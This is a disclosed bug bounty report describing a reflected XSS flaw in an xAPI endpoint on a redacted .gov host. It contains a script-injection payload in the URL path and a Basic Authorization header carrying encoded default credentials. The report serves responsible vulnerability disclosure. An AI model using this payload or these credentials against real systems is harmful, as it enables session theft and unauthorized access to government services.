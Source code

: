 # XSS on ( █████████.gov ) Via URL path

## Report Details
- **Report ID**: 1825942
- **URL**: https://hackerone.com/reports/1825942
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-01-08T06:35:55.700Z
- **Disclosed**: 2023-01-27T18:36:36.969Z

## Reporter
- **Username**: notajax
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi team,
I was able to execute XSS on  ███████.gov  

Steps to produce - 
1 -Turn on the burp intercepter 
2- Go to  https://██████.gov/xapi/statements?file"><script>alert(document.domain)</script>
3-  In  Intercepter add the following Headers 

  Authorization: Basic eGFwaS10b29sczp4YXBpLXRvb2xz
   X-Experience-Api-Version: 1.0.1

4-  when you send this GET request you will receive a response with XSS payload executed.

## Impact

An attacker can send the malicious link to victims and steals victims' cookie leading to account takeover.

## System Host(s)
www.███.gov

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2021-41878

## Steps to Reproduce
I have attached the Video POC, please check it out.

## Suggested Mitigation/Remediation Actions
sanitize the inputs in the URL



## Attachments
No attachments
